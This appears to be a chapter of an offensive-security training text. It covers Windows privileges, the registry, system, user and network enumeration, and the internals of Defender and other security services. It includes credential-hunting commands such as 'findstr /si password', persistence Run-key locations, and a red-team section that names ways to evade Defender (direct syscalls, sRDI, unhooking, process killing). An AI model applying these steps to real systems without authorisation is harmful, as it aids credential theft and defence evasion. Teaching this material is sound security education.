This is the easiest way to see what privileges your current user account has been granted and which are currently enabled in your current process's access token. Enabled means that the privilege is active and can be used by your process. Dissabled means that the privilege has been granted to your account but is not currently active in your process's token. You would need AdjustTokenPrivileges in your code to enable it. If the privilege has not been listed it has not been granted.
- Listing User Rights Assignments (Privileges) for Accounts You can export the entire local security policy, including user rights assignments, using secedit:
$ secedit /export /cfg [save_loc] /areas USER_RIGHTS
where, save_loc is the location of the saved file + name (i.e, C:\Windows\in\secpol.inf)
- Manipulating User Rights Assignments
ntrights.exeis a valuable tool, which can be used to grant a privilege to a user or revoke a privilege from a user, however it is not included .
The Windows Registry
The Windows Registry is a centralized, hierarchical database used by the operating system and applications to store configuration settings, user preferences, and a wealth of other information. It plays a vital role in facilitating many aspects of system operation, fro startup to user interaction:
Process Initialization and Executable Loading
The registry contains keys that dictate which programs and services should run when the system boots or when a user logs on. For instance:
-
Run: Programs registered here will start on every logon. They are persistent until removed manually. They can be found at: _
_ HKCU\Software\Microsoft\Windows\CurrentVersion\Run_HKLM\Software\Microsoft\Windows\CurrentVersion\Run -
RunOnce: Programs registered here will start only once at the next logon, and Windows deletes the registry value after execution. _
_ HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce_HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce -
Userinit: Programs registeredhere tellwinlogon.exeto run them after a successful logon. The default isuserinit.exe. This happens beforeRun/RunOnce, which run afterexplorer.exeis launched. _
_ HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon_HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon -
DLL Loading: DLLs are generally searched for by the Windows Loader using a search order (more on this in
Malware Essentials: DLL Highjacking). However, in some instances the Windows registry plays a role in how/why DLLs are loaded. For example: *KnownDLLs: A list of DLLs that are always loaded formSystem32for security and performance (to prevent DLL preloading attacks. Located atHKLM\SYSTEM\CurerntControlSet\Control\Session Manager\KnownDLLs
* `Appinit_DLLs` (historically): Tells `user32.dll` to load extra DLLs into every GUI process. This is mostly disabled by default now, as it allows malicious DLLs to be loaded into many processes automatically.
User Authentication and Identification
The Registry also contains data that plays a vital role in facilitating user authentication and identification processes. For example:
-
SAM Database: The Security Accounts Manager (SAM) database is loaded at
HKLM\SAM.
-
User Profiles and SIDs: The
HKEY_USERShive contains a subkey for each actively loaded user profile, identified by the user's SID. This is how the system stores user-specific settings, such as desktop appearance, application configuration, and network connections. When a user logs in, their profile hive is loaded into memory and linked to theHKEY_CURRENT_USERhive.
Memory Management
The Windows Registry is used to facilitate certain functions of Memory Management on the system as well. For instance:
-
Paging File Configuration: The registry key
HKLM\SYSTEM\CurrentControlSet\Constrol\Session Manager\Memory Managementcontains settings related to the virtual memory system, including the size and location of the paging file.
-
System and Driver Information: The registry stores configuration information for device drivers under
HKLM\SYSTEM\CurrentControlSet\Services. This information is accessed by the operating system's Plug and Play (PnP) manager during system startup and driver loading. It is an important connection to the memory management APIs, as it dictates how drivers are loaded into memory.
Interacting with Registry Values
You can set a registry value using the following command:
$ reg add "HKCU\Software\Test" /v Setting /t REG_SZ /d "Hello, World!"
Where:
HKCU: Shorthand for "HKEY_CURRENT_USER"/v Setting: Specifies the value name ("Setting")/t REG_SZ: Specifies the data type as a string/d "Hello, World!": Specifies the data to be written
You can get a registry value using the following command:
$ reg query "HKCU\Software\Test" /v "Setting"
Output:
HKEY_CURRENT_USER\Software\Test
Setting REG_SZ Hello, World!
You can delete a registry value using the following command:
reg delete "HKCU\Software\Test" \v Setting /f
Where:
/f: The force flag, which prevents an "Are you sure" prompt
Enumerating Windows Systems
Enumeration is the process of gathering information about a system including the operating system and hardware, the users and groups, the security configuration, and the network configuration.
OS and Hardware Enumeration
System enumeration on Windows is relatively simple. A few commands can expose a lot of information about the system, given the right permissions.
systeminfo is a very useful, built-in command that uncovers a lot of details, including:
- The Operating System, its Version, and its Build
- The System Manufacturer and the CPUs installed
- The Total Physical Memory and the Physical Memory Available
- The Virtual Memory In Use and the Virutal Memory Available
- The location of the Page File
- The Network Cards installed, their assigned IP Addresses, and their default DHCP Servers

Clearly, systeminfo can be a very powerful tool. It becomes even more useful when used in combination with findstr:

Where:
findstr: A Windows command-line utility, which can be used to identify strings within files and file streams, similar togrepon UNIX systems./I: Case insensitive search/C:[text]: Exact string literal search/B: Search for string at the beginning of a line/R: Search string is a regular expression
systeminfo and findstr can be a great tool for identifying hotfixes that have been installed on the system. A Hotfix is a small, targeted system update that aims to solve a particular issue without requiring a full service pack or a major software release. Identifying hotfixes can inform decisions about establishing persistence, using techniques to escalate privileges, and evading malware detection systems:

Hotfixes can also be identified using the Windows Management Instrumentation Command-line (WMIC) utility. WMIC is a build-in Windows command that allows users to query and manage various settings and system information from the command line:
 Where:
Where:
WMIC: Windows Management Instrumentation Command-line**qfe: Quick Fix Engineering (hotfixes)get: Retrieves a set of given properties from the records of the queried data set.
wmic has been deprecated on Windows 10+ and is not included on clean installations of Windows 11 24H2+. This was primarily because it was old, and presented a security liability as it's operations were poorly documented. However, WMI still plays an important role in managing and querying the configuration and state of Windows Systems. It can now be interacted with using Common Information Model interfaces, which provide a standard, object-oriented way of querying WMI directly within PowerShell (rather than using the wmic.exe program).

wmic is capable of identifying much of the same info as systeminfo, including information about the CPU, the hardware specifications, the BIOS, and the Operating System:

The CIM equivalent is:
PS> Get-CimInstance -ClassName Win32_OperatingSystem \
| Select-Object BuildNumber, Name, InstallDate
wmic can also be used to retrieve the environment variables that are stored on the system, similar to printenv on UNIX systems:

The CIM equivalent is:
PS> Get-CimInstance -ClassName Win32_Environment \
| Select-Object Name, VariableValue
Importantly, wmic can be used to list the running processes and related information:

The CIM equivalent is:
PS> Get-CimInstance -ClassName Win32_Process \
| Select-Object ProcessID, ExecutablePath, WorkingSetSize
Although it is less verbose, the tasklist command can be used to achieve the same objective:
 Where:
Where:
tasklist: A built-in Windows command that displays a list of processes currently active on the system.
You can also list the services being run under a particular process, using the /SVC option:

As we can see, there are a number of tools we can use to find information about the system, built into the operating system.
User and Group Enumeration
Previously, we discussed the whoami tool and its role in revealing information about principals, access tokens, and privileges on the system. This is a form enumeration. whoami has many capabilities, including the ability to list what groups the current account is a part of:

wmic can also be used for user and group enumeration. We previously saw how wmic can be used to identify the SID of every principal on the system:

The CIM equivalent is:
PS> Get-CimInstance -ClassName Win32_UserAccount \
| Select-Object Name, SID
Similarly, wmic can be used to list every group that can be found on the system:

The CIM equivalent is:
PS> Get-CimInstance -ClassName Win32_OperatingSystem \
| Select-Object BuildNumber, Name, InstallDate
We can follow this up by using the net command to determine which users are a part of any given group:

To find credentials for user, system, and domain accounts, we need to enumerate systems and domains. For instance, cmdkey can be used to display all of the credentials currently saved by the operating system for automatic access to network resources, websites, and other secured locations:

We can also quickly search through various types of files for references to passwords, in order to learn more about password rules, properties, and (in some unique cases) cleartext password values using the findstr command:
PS C:\> findstr /si password *.doc *.txt *.ini *.config
This can be expanded upon by searching for the pass phrase within configuration files for certain services:

We may be able to find user credentials saved in certain registry keys, under both HKLM and HKCU:

Try looking for passwords at C:\Users\<username>\AppData\Local\ as well. This directory contains data for locally installed apps. Certain applications, like web browsers keep track of user data and save it in their own private directory structure. Consider Microsoft Edge, a Chromium based web-browser that comes pre-installed on Windows. It keeps important data stored here: C:\Users\<username>\AppData\Local\, including things such as:
- User History
- Autofill Web Data
- Cookies
- User Credentials
Although much of this data is encrypted using DPAPI, capturing the encrypted data is the first step toward obtaining the unencrypted credentials.
User enumeration is extremely important, as it informs operators about their current context as a user, which other accounts exist on a system, and the levels of privilege they may be able to escalate to.
Network Enumeration
The main command for network operations is ipconfig. Although it is capable of many things, for network enumeration there are two options to focus on.
First, to show the full details of every network, use the /all option:
 This provides important information about the connected network interfaces, including their DHCP connection details, default DNS servers, and assigned MAC addresses.
This provides important information about the connected network interfaces, including their DHCP connection details, default DNS servers, and assigned MAC addresses.
ifconfig can also be used to gather information about the local DNS cache:

wmic is also extremely useful for network enumeration. It can gather information about the network interfaces, available network protocols, and active network connections.


The CIM equivalents are:
PS> Get-CimInstance -ClassName Win32_NetworkAdapter \
| Select-Object AdapterType, InterfaceIndex, MacAddress
PS> Get-CimInstance -ClassName Win32_NetworkConnection \
| Select-Object Name, Status, ConnectionType
Finally, you can monitor active network connections using the netstat utility:

netstat can also be used to view the routing table on the system, showing you how the system decides where to send packets:

Network enumeration is important because it shows how a single system is connected to other computer systems. It gives you an idea of how any given system can communicate, and to who with what privileges. As a red team operation continues to grow in scale, this becomes incredibly important as it gives context to what other systems may be available to compromise.
Enumerating Security Systems
Windows Defender is an anti-virus software that comes pre-installed on Windows 10+ systems. We will take a more in depth look at how it works later. For now, we can check the status of the service using the sc command. There is one problem though. PowerShell has a cmdlet called Set-Content, which will write or replace the contents of a file. This cmdlet uses sc as a shorthand, so in order to run sc.exe you must either provide the entire executable name or run the command outside of PowerShell, in cmd.exe:

Using
sc.exeto query the Service Control Manager aboutWinDefend

Using
cmd /cto query the Service Control Manager (SCM) aboutWinDefend
Details about the configuration of a particular service can be queries using sc qc <servicename>:

More security services can be found by querying the SCM for any services that are running:
PS> sc.exe queryex type=service
Some example services include:
-
Base Filtering Engine (
BFE): A critical user-mode Windows Service, which implements and enforces all of the filtering policies for firewalls, antivirus products, and traffic inspection tools. It is an important part of the Windows Filtering Platform (WFP).
-
Windows Event Log (
EventLog): A Windows Service, which is responsible for accepting event log files from applications, the OS kernel, and drivers and aggregating them in a centralized, hierarchical location (C:\Windows\System32\winevt\Logs). Importantly, it records security related events, such as:- Successful or failed user login/logoff attempts
- Object Access
- Changes to the Security Policy

-
Windows Defender Firewall (
mpssvc): Also known as the Microsoft Protection Service, it is the main executable which runs the logic for the Windows Firewall. It creates low-level filter objects and passes them to the BFE using WFP APIs so they can be enforced.
-
Security Accounts Manager (
SamSs): The service which manages the SAM Database and is used by the Local Security Authority Subsystem Service to verify user credentials.
-
Windows Security Service (
SecurityHealthService): The Windows Service responsible for managing the user interface for Windows Security, running all of the background processes that allow the Windows Security UI to interact with all underlying security providers, and aggregating security status information from these providers, including:- Windows Defender Antivirus
- Windows Firewall
- User Account Control Settings
- SmartScreen Status
- Application and Browser Control Settings
When a user interacts with the UI,
SecurityHealthServiceis responsible for relaying that command to the appropriate underlying service.
Plenty of other security services can be found by inspecting the output of this command.
netsh can be used to locally or remotely interact with network components, including network services. It is particularly useful for enumerating and managing firewall rules. The netsh advfirewall show command can be used to inspect the firewall properties of a given profile:

An Access Control List (ACL) can be enumerated to determine the permissions granted to a security principal for a dynamic, running object managed by the OS kernel.
Let's consider the Windefend service for a moment:
 Here, we can see that it is running on the system, it has a PID of
Here, we can see that it is running on the system, it has a PID of 3268 and it can receive commands for stopping and cleanly exiting before shutdown. An additional query will detail the permissions granted to manage the service for different security principals:

The provided output is not exactly readable. It is called a Security Descriptor Definition Language (SDDL) String. It can be divided into two distinct parts: the Structure and the Access Control Entries (ACEs):

The Structure value indicates which ACL is being displayed: the DACL or the SACL:
DACL: Discretionary Access Control List. Defines who is allowed or denied certain permissions.SACL: System Access Control List. Defines which user actions should be logged to the Windows Security Event Log.
The Access Control Entries show the actual permissions given to a particular set of security principals. Within each entry, there are 6 sections:

-
Type: Indicates whether the rule grants access or is for auditing.A(DACL): Grants permissions for the specified<Rights>.D(DACL): Blocks permissions for the given<Rights>.AU(SACL): Defines auditing rules. Logs access attempts (success, failure, or both) depending on flags (SAorFA)
-
Flags: Determines how the ACE should be inherited by child objects. Particularly relevant for folder permissions.OI: Object Inherit. Child objects that are not containers (like files) inherit the ACE.CI: Container Inherit. Child objects that are containers (like folders) inherit the ACE.NP: No Propogate. The inheritance stops after the first generation of child objects.IO: Inherit Only. The ACE only applies to child objects, not the object it is set on.SA: Successful Access. Logs an event if an attempted action succeeds.FA: Failed Access: Logs an event if an attempted action fails.
-
Rights: The set of permissions, depending on what type of object is being protected (file, folder, registry key, process, or service). They can be represented by mnemonic codes (likeFA) or raw, hexadecimal values (like0x1F01FF). There are quite a few, but here we will list some which are relevant to processes/services:- CC
0x0001: Query Config. Permission to read the configuration state of a given service. - LC
0x0004: Query Status. Permission to request the current status of a service from the SCM. - SW
0x0008: Enumerate Dependents. Permission to retrieve a list of services that depend on a given service. - RP
0x0010: Start. Permission to start the service. - WP
0x0020: Stop. Permission to stop the service. - DT
0x0040: Pause/Continue. Permission to pause or continue a service. - LO
0x0080: Interrogate. Permission to update the SCM with the current status of the service. - CR
0x0100: User Defined Control. Permission to send developer defined control codes to the service. - RC
0x20000: Read Control. Permission to read the given service's ACL.
You may have noticed that the mnemonics for most of the Service Access Rights (i.e.,
LOfor Interrogate). A simple explanation is that SDDL strings are applied to many different types of objects and the permissions themselves are interpreted by different Object Managers to mean different things. Many mnemonics are used in circumstances outside of their original intention, but their raw hexadecimal values still have specific meaning. This is why a mnemonic likeCC(Create Child) with a raw value of0x0001will grant configuration access rights.CCLCSWRPWPDTLOCRRCis the standard access right for granting full permission over a service to a security principal. - CC
-
Object GUID: Only used for Object Specific ACEs. Defines a specific object property to protect. Typically empty for processes/services. -
Inherit GUID: Only used for Object Specific ACEs. Defines the type of object that inherits the ACE. Typically empty for processes/services. -
SID: The Security Identifier (SID) for a given security principal (user, group, service) the permissions apply to. This value can also be represented by constant values:SY: Local System (NT Authority\System)BA: Built in Administrator (BUILTIN\Administrators)IU: Interactive Users (Any user logged into the console)SU: Service Users (Any user logged on as a service)WD: Everyone (World)
Documentation on SDDL strings can be found within the Microsoft SDK Documentation. SDDL values specific to services can be found here. In some instances, a 7th (resource-attribute) section is used to define the data type, though this does not apply here.
Permissions for static objects can be read using icacls:

For the current directory ., each security principal has the Inherit Only (I), Object Inherit (OI), and Container Inherit (CI) flags set and has been granted Full Control (F) over the directory's objects.
Scheduled Tasks are useful because they automate the execution of certain actions based on different triggers. They can be enumerated using the schtasks command:

This can produce a lot of output. To check the status of a single scheduled task, use the tn (task name) option:

You can use the Get-ScheduledTask PowerShell cmdlet to get information about all of the scheduled tasks in a particular folder:

Windows Security
Windows Security is the unified hub that consolidates the status, settings, and controls for several core system defense components, including:
- Virus & Threat Protection (Microsoft Defender Antivirus)
- Firewall & Network Protection
- Account Protection
- App & Browser Control
- Device Security
Windows Security is the interface used to manage the low-level security services running on the operating system. The various components work together in a layered fashion to process information and enforce security policies.
Users or system policy can set rules via the UI. The SecurityHealthService receives these rules as input and passes them to the Microsoft Defender Service (MsMpEng.exe). The Defender engine runs at a privileged level, using kernel callbacks and filters to intercept file system operations and network traffic. When a scripting engine is about to execute code, it uses the Anti-malware Scan Interface (AMSI) to send the script content to the Defender before execution begins. If the code is malicious, Defender blocks it, preventing fileless malware from running. If Defender detects a threat, it performs some pre-configured action (quarantine, clean, block) and immediately sends an alert to SecurityHealthService, which then updates the status displayed in the UI.
Structure
Windows Security is the interface, which allows users to monitor and configure different security services that run on the system. These services can be divided into 4 general categories:
- Core Antivirus & File Protection
- Network & Web Defense Services
- Health & Management Services
- Advanced Controls
Core Antivirus & File Protection
The Microsoft Defender Antivirus Service (shortname WinDefend) is the most critical component of Windows Security as it performs all the fundamental tasks required for endpoint protection, including system monitoring, updating malware definitions, and scanning accessed files. Its main executable, MsMpEng.exe can usually be found here:
C:\ProgramData\Microsoft\Windows Defender\Platform\<version>\MsMpEng.exe. This can be verified using sc.exe qc WinDefend. Its primary responsibilities include:
- Real-Time Protection: Actively monitoring all file system activity. When a file is created, opened, or executed,
MsMpEng.exeintercepts the operation to scan the file before the system can process it. - Signature-Based Detection: Compares the content of files and memory against its database of known malware signatures.
- Heuristic and Behavioral Analysis: Watches for activities that don't match a known signature for a legitimate program.
- AMSI Integration: Handles requests from the Anti-malware Scan Interface. When a scripting host is about to execute code, it passes the script to
MsMpEng.exefor scanning and blocking, even if the script is completely fileless. - Tamper Protection: A Defense-Hardening feature that ensures critical security settings cannot be disabled by malware or scripts. Supported by
WdBoot.sysandWdFilter.syskernel drivers, which guarantee thatMsMpEng.execan initialize in a protected environment and provide resilience against user‑mode tampering by ensuring malicious activity is blocked before reaching kernel-mode. - Malware Remediation: Handles the quarantine, deletion, or cleaning of infected files, registry keys, and system configurations when malware is discovered.
- SmartScreen Application Checks: A reputation-based protection system which is deeply integrated into Microsoft Edge and blocks or warns users before they access phishing sites, malicious downloads, or suspicious apps by checking them against Microsoft's Threat Intelligence.
- Exploit Guard: A collection of four components that provides defense-in-depth on Windows systems.
Windefendplays a role in configuring/managing each of them:Attack Surface Reduction(ASR): Manages and enforces rules which target specific risky events to prevent actions and behaviors commonly used by malware to infect machines.MsMpEng.exeuses its high privileges and minifilter drivers (WdFilter.sys) to intercept system calls and block high risk behaviors (i.e., blocking Office Apps from spawning child processes) before they can execute.Exploit Protection: Applies process mitigation techniques, such as Address Space Layout Randomization, Data Execution Prevention, and Control Flow Guard, making it harder for attackers to exploit vulnerabilities. While the core mitigations are handled by the Windows Kernel and Memory Manager,MsMpEng.exeand its associated components manage the policy and configuration for applying these mitigations to individual processes.Controlled Folder Access(CFA): Protects important files and folders from unauthorized changes, especially from ransomware and other malicious software that attempts to encrypt, modify, or delete data.MsMpEng.exeintercepts attempts to write or modify files in protected folders and compares the attempting process against the list of approved applications, blocking unauthorized access.Network Protection: Blocks outbound connections to malicious IP addresses and domains.MsMpEng.execontains the necessary intelligence and communicates with the Network Inspection Service (WdNisSvc) to ensure that malicious connections are blocked at the network stack.
MsMpEng.exe typically runs with very high privileges (LocalSystem or NetworkService). This is because it needs to reliably detect, block, or remove malware that hides in protected areas of the OS. To provide system-wide protection, it must monitor and intercept activity across the entire system - files, processes, registry keys, services, and network traffic. To do this requires kernel-level visibility and the ability to act on behalf of any user. To intercept file operations and network traffic, MsMpEng.exe uses minifilter drivers (i.e., WdFilter.sys), which require user-mode applications to have high privileges to facilitate direct coordination. If malware is detected, WinDefend may need to kill processes owned by other users, delete or quarantine files in protected system directories, or modify registry keys or system configurations. These actions require LocalSystem or NetworkService permissions.
The integrity and operational status of MsMpEng.exe is of the utmost importance, as if an adversary is able to disable or bypass this service, they have essentially disarmed the system's primary defense.
The Microsoft Defender Antivirus Reliability Service (shortname dsSvc) is responsible for maintaining the integrity of the Microsoft Defender Antivirus and its security intelligence. dsSvc runs as a DLL, hosted within a generic Service Host process (svchost.exe). It's system configuration information can be found at HKLM\SYSTEM\CurrentControlSet\Services\DsSvc and the DLL itself is typically found at C:\Windows\System32\dssvc.dll.
While MsMpEng.exe runs the core scanning logic, dsSvc handles the necessary reliability maintenance (self-healing, stability checks), ensuring that MsMpEng.exe is always running and recoverable. It's core responsibilities are:
- Supporting the broader Defender infrastructure by coordinating with the Service Control Manager to keep protection active and reliable.
- Maintain the operational health and integrity of the core anti-malware platform and other associated Defender components.
- Responsible for quickly restarting
MsMpEng.exeor attempting to restore its functionality in the event that the service crashes, hangs, or is successfully terminated.
dssvc is a redundant supervisor which serves to protect the main system from certain operational failures. By having a separate, lightweight and dedicated service, Windows ensures that having a failure in the main defense process does not lead to a permanent, unprotected state.
Network & Web Protections
The Windows Defender Antivirus Network Inspection Service (shortname WdNisSvc) is a critical component of Windows Security that provides network-level protection by inspecting incoming and outgoing network traffic. It is the primary engine for Web Defense and Network Protection within the Defender suite. NisSrv.exe is the main executable for the service and it is typically located at C:\ProgramData\Microsoft\Windows Defender\Platform\<version>\NisSrv.exe. This can be verified using sc.exe qc WdNisSvc. WdNisSvc is triggered when real-time protection or exploit protection features are enabled. It monitors network packets and application traffic for suspicious patterns and if malicious activity is detected, it can block the connection, alert the user, and log the event in Defender's security history.
WdNisSvc has two main responsibilities:
- Monitoring Network Traffic: It intercepts network packets using the Base Filtering Engine
BFE, then examines the content of the data stream for malicious patterns. - Intrusion Prevention: It functions as a Host-based Intrusion Prevention System (HIPS) by checking traffic against Microsoft's threat intelligence, identifying and blocking network exploits, known attack payloads, and suspicious protocol activity.
WdNisSvc is crucial for network defense. Its main function is to act as a security layer deep within the Windows network stack, protecting the system before malicious data reaches the application layer (i.e., web browsers and email clients)
The Windows Defender Firewall (shortname MpsSvc) is the core system service responsible for implementing and enforcing the host-based firewall functionality on Windows. It controls which network traffic is allowed to enter or leave the system based on a set of administrator defined rules. MpsSvc runs as a DLL, hosted within a generic Service Host process (svchost.exe). It's system configuration information can be found at HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MpsSvcand its main library file mpssvc.dll can be found at C:\Windows\System32\mpssvc.dll.
MsSvc starts automatically with Windows to ensure security from boot. Firewall rules are applied by the user, system defaults, and enterprise policies. Packets are blocked at the Network layer to block suspicious or unauthorized traffic. Blocked traffic and firewall activity are recorded in the Windows Event Log.
MpsSvc has a few different responsibilities. First and foremost, it monitors all incoming and outgoing network communications on the host and applies security policy rules to determine whether to allow or block specific traffic. It also maintains a record of active network connections. That way, if an application sends some outbound traffic on the network, the inbound reply is automatically let through. MpsSvc can also inspect which application or process is trying to communicate and apply certain rules based on that application's executable path, digital signature or service name. Finally, it is capable of enforcing different sets of rules dynamically, based on the current network environment applied to the host: Domain, Private, or Public networks.
MpsSvc relies entirely on the Base Filtering Engine (BFE) to enfoce the rules that it manages. Essentially, both MpsSvc and WdNisSvc create policies for the type of traffic that is allowed to enter/exit the system, based on the trust level of the applications and processes that wish to communicate over the network and the actual content within the packets being transmitted, respectively.
The Base Filtering Engine is a critical, fundamental system service that manages firewall and Internet Protocol Security policies and implements user mode filtering. It serves as the core networking infrastructure for many security-related features in Windows. Without it, the Windows Defender Firewall and other filtering features can not function. BFE runs as a DLL, hosted within a generic Service Host process (svchost.exe). Its system configuration information can be found at HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\BFE and its main library file can be found at C:\Windows\System32\bfe.dll.
BFE starts automatically with Windows, as MpsSvc and other networking features rely on it to function and they too need to be available at start. It provides an interface for user-mode applications to interact with the Windows Filtering Platform (WFP). WFP API calls are exposed through C:\Windows\System32\fwpuclnt.dll to client applications, although they are implemented as Remote Procedure Calls, meaning the actual code for each API call is found within the BFE service. BFE then makes the transition from user-mode to kernel mode by calling DeviceIoControl to pass the processed filtering policies to the fwpkclnt.sys kernel driver. C:\Windows\System32\drivers\fwpkclnt.sys is then responsible for injecting the code hooks into the network stack's data path, enforcing the policy rules. The resulting value gets passed back up the stack to the client application.
Health, UI, and Management
The Windows Security Center Service (shortname wscsvc) monitors and reports security health settings on the computer, including the state of the firewall, antivirus, antispyware, Windows Update, User Account Control, and Internet Settings. also provides Component Object Model (COM) APIs, so that third-party software vendors can also report the state of their services to the wscsvc. Essentially, it acts as the central hub to ensure users and administrators are notified when essential protections are disabled or missing. wscsvc runs as a DLL, hosted within a generic Service Host process (svchost.exe). Its system configuration settings are stored at HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\wscsvc and its main library file can be found at C:\Windows\System32\wscsvc.dll.
wscsvc starts with Windows to ensure continuous monitoring. It queries Windows Defender Antivirus, Firewall (MpsSvc), and Windows Update. It aggregates status information and reports it to the Windows Security UI, through the SecurityHealthService. If something is disabled or requires attention, it generates alert notifications in Windows Security. It doesn't block threats, but it makes sure you are informed about the state of your Windows Security Services. It should not be disabled, as it will stop notifications about disabled or missing security services.
SecurityHealthService is a core background service in Windows 10+ that monitors the overall security posture of your system, ensuring that antivirus, firewall, updates, and other protection features are active and functioning correctly. It works in concert with the Windows Security Center Service to collect and manage health information, ensuring that the user interface (SecHealthUI.exe) provides the most up-to-date information about the protection status of the endpoint. It starts automatically with Windows and is required for the Windows Security app to display accurate information. It provides an interface API that third-party security services can use to register their product's status, ensuring that the Windows Security interface provides a unified view of all protective layers. It's executable file is stored at C:\Windows\system32\SecurityHealthService.exe.
SecHealthUI is the user-facing client application that displays the health status of the lower-level Windows Security services. It consumes data provided by SecurityHealthService and other system APIs to show whether protections are active in a unified graphical user interface. It is also responsible for command dispatch. User actions are translated into commands that are dispatched to the appropriate low-level security services. This gives users and administrators the ability to monitor and configure all Windows Security services installed on the system in a centralized location.

Advanced Control
While UAC is a core Operating System feature, and not a component of Windows Security, together they contribute to the defense-in-depth approach on modern Windows systems. Essentially, User Account Control (UAC) is a system that prompts users to approve or deny changes initiated by actions that require a High Integrity Level (more on this in Malware Essentials), reducing the risk of malware or accidental modification. When a user attempts to take an action, the OS detects the elevation request and launches Consent UI (consent.exe). If the user is admin, they must approve or deny. If the user is standard, they must provide admin credentials. Once approved, the operation is conducted with elevated privileges.

Similarly, the Windows Updater is not a component of Windows Security, however the two components have an important role in maintaining the security of the system. Updater distributes operating system patches, feature upgrades, driver updates, and security fixes. This ensures that the OS and its components are current, closing vulnerabilities and improving stability. Vulnerabilities in Windows Security services are fixed through updates, along with malware definitions and engine updates. The service name is wuauserv and it is part of a shared service (svchost.exe). It is implemented as a few different libraries, saved in C:\Windows\System32\:
wuaueng.dll: Windows Update Agent Engine (Core Logic)wuapi.dll: Windows Update API Interfacewucltux.dll: Windows Update Client UIwups.dll/wups2.dll: Windows Update client proxy stubwuwebv.dll: Web-Based Windows Update control
Essentially, Windows Updater is the delivery mechanism, while Windows Security is the monitoring and enforcement hub. They cooperate to maintain the security of the system in an evolving threat landscape.
Interface
SecHealthUI.exe is the executable for the Windows Security UI. However, MpCmdRun.exe is a command-line utility which allows users to interact with MsMpEng.exe directly. It can be used for a variety of tasks, including updating system components, running antimalware scans on files, restoring system configurations, and testing network connection to available security services. Here, we will go over a few useful commands that can be used to interact with the service.
-
MpCmdRun.exe -SignatureUpdate: Forces Microsoft Defender to immediately check for and download the latest security intelligence updates.
-
MpCmdRun.exe -Scan -ScanType 1: Runs a Quick Scan, checking common malware locations, memory, and startup files. This is the fastest and most common scan type.
-
MpCmdRun.exe -Scan -ScanType 2: Runs a Full Scan, scanning all files and running processes on the local hard disk. It takes significantly more time than a Quick Scan, but is more thorough.
-
MpCmdRun.exe -Scan -ScanType 3 -File <file_path>: Runs a scan against a specific file or directory. It is useful for targeted analysis of suspicious files.
- Use
-DisableRemediationto prevent Defender from taking action if malware is found. This is useful for analysts who want to inspect the malware before it is removed.
- Use
-
MpCmdRun.exe -Restore -All: Restores all items that are currently in the quarantine folder back to their original locations. -
MpCmdRun.exe -RemoveDefinitions -All: Removes all downloaded security intelligence definitions. -
MpCmdRun.exe -ValidateMapsConnection: Tests connectivity to the Microsoft Active Protection Service, which provides cloud-delivered protection. It is essential for ensuring SmartScreen and real-time defense intelligence are functioning.
There are also a number of PowerShell cmdlets that can be used to perform Windows Security operations as well.
For instance, Get-MpComputerStatus can be used to get the real-time operational status of Microsoft Defender:

Get-MpThreat is another useful cmdlet, which shows the name, severity, and detection time of active threats:
 Use
Use Remove-MpThreat to remove any detected threats from the system.
You can also run Start-MpScan to run a quick scan on the system:

Red Team Considerations
Red team operations dealing with Microsoft Defender Antivirus require balancing evasion with Operations Security (OpSec) to avoid prematurely alerting blue teams.
We will discuss OpSec in greater detail in Chapter 6 Introduction to C2 Frameworks and Operations Security
A few key things to consider. First, Defender's effectiveness depends on configuration and whether it is standalone or integrated with Microsoft Defender for Endpoint (MDE) (This can be verified using Get-Service -Name Sense). You need to test potential payloads in isolated labs mirroring target setups. Defender uses many diferent techniques to identify malicious activity on a system (i.e., Signature-based etection, Behaviroal Analysis, AMSI Integration, Exploit Guard/Windows Defender Application Control (WDAC)). While custom payloads play a vital role in running a successful operation, introducing factors like jitter, custom beacons, and payload patching can help obfuscate payloads and circumvent detection methods. Microsoft Defender uses API hooks to intercept and monitor system calls at runtime. By hooking into critical Windows APIs (i.e., NtCreateFile, NtCreateProces, NtWriteProcessMemory), Defender can inspect, block, or modify potentially dangerous malicious behavior before it executes. Use techniques like Direct Syscalls + sRDI (Syscall Reflective DLL Injection), DLL Highjacking (Side-Loading), and Unhooking and Process Killing to circumvent these protections. (cred: @5mukx on X). Focus on layered evasion: initial access, execution, and persistence. Prioritize LotL to minimize custom binaries.
One more thing to consider. Microsoft Defender Antivirus provides core prevention features (i.e., Real-Time Protection, Exploit Guard, SmartScreen) and operates well as the first-line of defense, However, it is not a full Endpoint Detection and Response (EDR) solution. It works as a prevention solution for known threats and a reactive remediation system to quarantine or delete identified threats. However, it does not work for detection, investigation, or automated response for unknown/advanced threats. Integrate Microsoft Defender Antivirus with Microsoft Defender for Endpoint to form a full, host based EDR solution.
Additional Security Features of Windows
HVCI
Hypervisor-Enforced Code Integrity (HVCI) (aka. Memory Integrity) is a virtualization based security feature that ensures that all code destined for the Windows Kernel has been digitally signed and has not been altered. It relies on Virtualization-based Security (VBS), utilizing the hardware's hypervisor to divide the system memory into two different Virtual Trust Levels:
VTL 0: The common area where applications, drivers, and even the OS itself are housed.VTL 1: The highly secure kernel environment that is hidden from VTL 0.
During the boot-up process, winload.exe (or winload.efi on UEFI systems) will check the configuration of VBS via the Boot Configuration Data (BCD) and if it is enabled, it will load hvloader.dll and hvix64.exe or hvax64.exe into memory, initializing the hypervisor. Then, winload.exe loads ntoskrnl.exe into memory the VTL 0 memory region under Ring 0. Finally, winload.exe loads securekernel.exe into the VTL 1 memory region, under Ring 0. Once all three parts are loaded into memory by winload.exe, it transfers control to hvix64.exe (the hypervisor), which then executes the secure kernel. securekernel.exe sets up its own memory protection systems, and initializes its Code Integrity policices. At this point, the VTL 0 environment is set up, so securekernel.exe signals to hvix64.exe that it is ready to monitor the system. Now, hvix64.exe will start ntoskrnl.exe starting up the Windows OS and subsequently, any request to modify the permissions of kernel-mode memory so that it can be executed will result in a hypercall being made to the hypervisor, requesting permission for the change to occur. Once this call is made, the hypervisor shifts control to the secure kernel, where skci.dll (Secure Kernel Code Integrity) inspects the region of VTL 0 that the permissions change has been requested for and if the code in that region has not been signed by a trusted authority, the request is denied when control is reverted back to VTL 0.
Credential Guard
